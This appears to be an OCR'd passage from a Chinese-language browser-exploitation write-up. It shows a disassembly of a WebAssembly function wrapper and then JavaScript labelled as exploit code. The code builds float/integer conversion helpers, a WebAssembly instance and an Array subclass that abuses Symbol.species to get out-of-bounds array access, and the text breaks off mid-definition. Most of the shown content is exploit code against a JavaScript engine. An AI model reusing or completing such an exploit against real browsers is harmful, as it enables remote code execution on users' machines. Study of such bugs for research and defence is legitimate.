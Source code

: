 ```c
0x17a37384141     1  4889e5         REX.W movq rbp,rsp
0x17a37384144     4  56             push rsi
0x17a37384145     5  57             push rdi
0x17a37384146     6  e835ffffff     call 0x17a37384080       ;; code: WASM_FUNCTION
0x17a3738414b     b  48c1e020       REX.W shlq rax, 32
0x17a3738414f     f  488be5         REX.W movq rsp,rbp
0x17a37384152    12  5d             pop rbp
0x17a37384153    13  c20800         ret 0x8
0x17a37384156    16  6690           nop
```

exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);
function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var oobArray;
var data_buf;
var obj;

class Array1 extends Array{
	constructor(len){
		super(1);
		oobArray = [1.1, 2.2];
		data_buf = new ArrayBuffer(0x233);
		obj = {mark: 1111222233334444, obj: wasm_function};
	}
};


class MyArray extends Array{
	static get [Symbol.species](){
		return Array1;
```